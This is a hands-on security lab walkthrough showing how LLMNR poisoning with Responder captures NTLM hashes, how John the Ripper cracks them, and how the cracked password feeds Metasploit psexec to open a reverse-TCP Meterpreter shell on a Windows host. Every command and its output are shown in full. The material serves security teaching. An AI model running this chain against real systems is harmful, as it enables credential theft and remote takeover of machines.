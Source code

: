 

# Responder

In this lab we are going to walk through how quickly an attacker can take advantage of a common misconfiguration to gain access to a system via a weak password.

Specifically, we are looking to take advantage of LLMNR.  

First, we will need to load our terminal and start responder.

Let's get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

Next, let’s become root:

adhd@DESKTOP-I1T2G01:/mnt/c/Users/adhd$ `sudo su -`

Let’s change into the Responder directory:

root@DESKTOP-I1T2G01:~# `cd /opt/Responder/`

And let’s start Responder:

root@DESKTOP-I1T2G01:/opt/Responder# `./Responder.py -I eth0`

![](attachments/Clipboard_2020-06-23-14-22-03.png)

Now, let's go back to your Windows system and open Windows Explorer and put in the string \\\Noooo into the address bar.

![](attachments/Clipboard_2020-06-23-14-22-57.png)

Give it a few moments and you should see some capture data showing up.  Please note there may be an error.  That is OK.


![](attachments/Clipboard_2020-06-23-14-22-23.png)

Next we need to kill Responder with Ctrl + c.  This will return the command prompt. 

Now, we need to change to the logs directory.

root@DESKTOP-I1T2G01:/opt/Responder# `cd logs/`

Once there, we will need to start John The Ripper"

root@DESKTOP-I1T2G01:/opt/Responder/logs# `/opt/JohnTheRipper/run/john --format=netntlmv2 ./HTTP-NTLMv2-172.26.16.1.txt`
Remember!  Your IP will be different!!!!


If you captured a NTLMv1 hash you can crack it with the following command:

root@DESKTOP-I1T2G01:/opt/Responder/logs# `/opt/JohnTheRipper/run/john --format=netntlm ./HTTP-NTLMv1-172.26.16.1.txt`
Remember!  Your IP will be different!!!!

Notice the v2 is dropped from the --format.

![](attachments/Clipboard_2020-06-23-14-24-11.png)

You should see the Windows password be cracked very quickly.  

Now, let’s use that password!

First, we will need to run a script that configures your system as though it is on a domain with little to no security between workstations.
Basically, it allows logons over the network.

Use file explorer to navigate to C:\IntroLabs

Then, Right-click on the smb.bat file and run it as Administrator:

![](attachments/SMB_bat.png)

Next, let’s open a new Ubuntu Command Prompt.

![](attachments/Clipboard_2020-06-17-08-32-51.png)

Now we are going to start up and launch Metasploit against the Windows system to get a Meterpreter session.

<pre>
adhd@DESKTOP-I1T2G01:/mnt/c/Users/adhd$ <b>sudo su -</b>
[sudo] password for adhd:
root@DESKTOP-I1T2G01:~#
root@DESKTOP-I1T2G01:~# <b>msfconsole -q</b>
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf5 ><b> use exploit/windows/smb/psexec</b>
msf5 exploit(windows/smb/psexec) >
msf5 exploit(windows/smb/psexec) ><b> set PAYLOAD windows/meterpreter/reverse_tcp</b>
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) >
msf5 exploit(windows/smb/psexec) ><b> set RHOSTS 172.18.112.1 ###REMEMBER!!! YOUR WINDOWS IP WILL BE DIFFERENT</b>
RHOSTS => 172.18.112.1
msf5 exploit(windows/smb/psexec) ><b> set SMBUSER adhd</b>
SMBUSER => adhd
msf5 exploit(windows/smb/psexec) ><b> set SMBPASS adhd</b>
SMBPASS => adhd
msf5 exploit(windows/smb/psexec) ><b> exploit</b>

[*] Started reverse TCP handler on 172.18.121.248:4444
[*] 172.18.112.1:445 - Connecting to the server...
[*] 172.18.112.1:445 - Authenticating to 172.18.112.1:445 as user 'adhd'...
[*] 172.18.112.1:445 - Selecting PowerShell target
[*] 172.18.112.1:445 - Executing the payload...
[+] 172.18.112.1:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176195 bytes) to 172.18.112.1
[*] Meterpreter session 1 opened (172.18.121.248:4444 -> 172.18.112.1:52806) at 2022-10-18 12:39:56 -0600

meterpreter >
</pre>
Now, you can see just how bad LLMNR is!!!!



